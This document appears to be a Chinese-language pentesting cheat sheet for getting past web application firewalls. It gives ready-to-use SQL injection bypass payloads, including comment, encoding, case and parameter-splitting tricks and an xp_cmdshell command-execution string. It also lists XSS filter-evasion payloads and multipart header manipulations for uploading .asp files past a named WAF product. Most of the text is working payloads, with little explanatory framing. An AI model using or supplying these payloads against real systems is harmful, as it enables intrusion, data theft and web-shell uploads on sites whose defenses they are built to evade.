 ## waf绕过
伪造XFF头位127.0.0.1（waf一看请求来自自己，直接放行了）（burp的扩展）
或者找出真实ip绕过（比如说反向代理模式）

通过工具伪造百度，谷歌等user agent头或者伪造白名单特殊目录（因为这些ua头或者目录可能在waf白名单里，爬虫白名单）

编码绕过

修改请求方式绕过

# 复合参数绕过
```
比如一个get请求是
	GET /pen/news.php?id=1 union select user,password from mysql.user
可以修改为
	GET /pen/news.php?id=1&id=union&id=select&id=user,password&id=from%20mysql.user
	很多都可以这样绕过
```

# 特殊字符替换空格
在sqlserver中可以用/* */代替空格，要找那些内联注释是不在黑名单里的，
```
http://192.168.222.128/test/sql.php?id=1 /*!union*//*%!aa*//*!select*/ 1,2,3
```

# 特殊字符拼接
把特殊字符拼接起来绕过WAF的检测，比如在Mysql中，可以利用注释/**/来绕过，在mssql中，函数里面可以用+来拼接
如：GET /pen/news.php?id=1;exec(master..xp_cmdshell 'net user')
可以改为：GET /pen/news.php?id=1; exec('maste'+'r..xp'+'_cmdshell'+'"net user"')

# 注释包含关键字
在mysql中，可以利用/*!*/包含关键词进行绕过，在mysql中这个不是注释，而是取消注释的内容。**测试最新版本的****WAF****可以完美绕过。**
```
如: GET /pen/news.php?id=1 union select user,password from mysql.user
可以改为: GET /pen/news.php?id=1 /*!union*/ /*!select*/  user,password /*!from*/ mysql.user
```

# 空格替换法

   把空格替换成%0a/\*\*/可以绕过最新版本WAF, 在Pangolin中 点击 编辑-- 配置-- 高级-- 选择替换空格使用-- 填上%0a/\*\*/即可

# 内联注释法
通过内联注释把恶意语句拆分开
```sql
SELECT * FROM users WHERE username = 'admin'/* this is a comment */OR/* another comment */'1'='1';
实际上执行是
SELECT * FROM users WHERE username = 'admin' OR '1'='1';

```
**`/*!11440select*/`**：

- 这是一个 MySQL 特有的技巧。`/*!...*/` 是一个版本特定的注释块，在这里，`11440` 指定了一个 MySQL 版本号（实际版本号可以随意指定）。WAF 可能会忽略这个注释块，从而达到绕过的效果。实际执行时，`select` 语句会被执行，而不是被注释掉。
- 比如如果数字是50001表示加入数据库是5.00.01以及以上的般般，该语句才会被执行，有的数字是不能执行的，实战的时候可以fuzz一下
```sql
-1' union /*!11440select*/ group_concat(table_name),2 from information_schema.tables where table_schema=database/*!77777cz*/()#
```0
# 大小写法
大小写有时候能绕过关键字检测
```sql
http://www.***.com/index.php?page_id=-15 uNIoN sELecT 1,2,3,4….
```

# 关键字替换
```sql
http://www.***.com/index.php?page_id=-15 UNIunionON SELselectECT 1,2,3,4….
此方法适用于一些会把union select替换掉的WAF，经过WAF过滤后就会变成 union select 1,2,3,4....
```

编码结合注释
```sql
 http://www.***.com/index.php?page_id=-15 %55nION/**/%53ElecT 1,2,3,4…

[http://192.168.0.142:8080/sql.php?id=1/*!50000*/union/*!50000*/select/*!50000*/1,user(),3,4,5](http://192.168.0.142:8080/sql.php?id=1/*!50000*/union/*!50000*/select/*!50000*/1,user(),3,4,5)
```

# 符号替换
=号不行就Xor，或者like等能替代的触发的，动动脑筋

# 分块传输
直接使用bp的插件，一般都是post才行，与服务器保持链接，数据分好几次发完

# xss绕过规则
换标签
<video src=1 onerror=alert(/xss)>
<details open ontoggle=alert(/xss/)>
<button onfocus=alert(/xss/) autofocus>
top可以连接对象以及属性或函数

把特殊符号用html编码后url编码

<details open ontoggle=top.alert(1)>    //注，在goole浏览器实用

<details open ontoggle=top[‘prompt’](1)>

<details open ontoggle=top[‘al’%2b’ert’](1)> %2b为url编码的+

%27"><details%20open%20ontoggle=eval(%27alert(1)%27)>

使用concat来拼接字符串javascript:alert(1)

<iframe onload=location=’javascri’.concat(‘pt:aler’,’t(1)’)>

<script>alert(1)</script>Ascii编码

<body/onload=document.write(String.fromCharCode(60,115,99,114,105,112,116,62,97,108,101,114,116,40,49,41,60,47,115,99,114,105,112,116,62)) >

<svg/onload=setTimeout(String.fromCharCode(97,108,101,114,116,40,49,41))>

其他：用/代替空格作为分隔

Base64编码：  
<details open ontoggle=eval(atob(‘YWxlcnQoMSk=’)) >  
eval拦截的话，可以试试，把 e Unicode编码  
<details open ontoggle=\u0065val(atob(‘YWxlcnQoMSk=’)) >  
url编码：  
<details open ontoggle=%65%76%61%6c(atob(‘YWxlcnQoMSk=’)) >  
url编码：  
<details open ontoggle=eval(‘%61%6c%65%72%74%28%31%29’) >  
JS8编码：  
<details open ontoggle=eval(‘\141\154\145\162\164\50\61\51’) >  
Ascii码绕过：  
<details open ontoggle=eval(String.fromCharCode(97,108,101,114,116,40,49,41)) >  
其他自测

# 文件上传

1                突破0，文件名前缀加[0x09]绕过：
1                突破1，文件名去掉双引号绕过：
1                突破2，添加一个filename1的文件名参数，并赋值绕过：
1                突破3， form变量改成f+orm组合绕过：
1                突破4 ，文件名后缀大小写绕过：
1                突破5 ，去掉form-data变量绕过：
1                突破6，在Content-Disposition:后添加多个空格 或者在form-data;后添加多个空格绕过：
`——WebKitFormBoundary2smpsxFB3D0KbA7D
ConTent-Disposition: form-data                                 ; name=”filepath”; filename=”backlion.asp”
Content-Type: text/html`
1                突破7 ，backlion.asp . (空格+.)绕过：
——WebKitFormBoundary2smpsxFB3D0KbA7D
ConTent-Disposition: form-data; name=”filepath”; filename=”backlion.asp .”
Content-Type: text/html

1                突破8 ，“回车换行，绕过：
——WebKitFormBoundary2smpsxFB3D0KbA7D
ConTent-Disposition: form-data; name=”filepath”; filename=”backlion.asp
”
Content-Type: text/html
1                突破9 ，NTFS流 在文件名后加::$DATA绕过：
——WebKitFormBoundary2smpsxFB3D0KbA7D
ConTent-Disposition: form-data; name=”filepath”; filename=”backlion.asp::$DATA”
Content-Type: text/html
1                突破10， 经过对IIS 6.0的测试发现，其总是采用第一个（也就是双文件上传）Content-Disposition中的值做为接收参数，而安全狗总是以最后一个Content-Disposition中的值做为接收参数。因此尝试构造如下请求[上传backlion.asp成功]：
Content-Disposition: form-data; name=”FileUploadName”; filename=”backlion.asp”
1                突破11，将Content-Type和ConTent-Disposition调换顺序位置绕过：
1                突破12，在文件名前缀加空格（tab键可替换）绕过：
ConTent-Disposition: form-data; name=”filepath”; filename=”backlion.asp”
1                突破13，在form-data加空格绕过：
1                突破14，在form-data的前后加上+绕过：
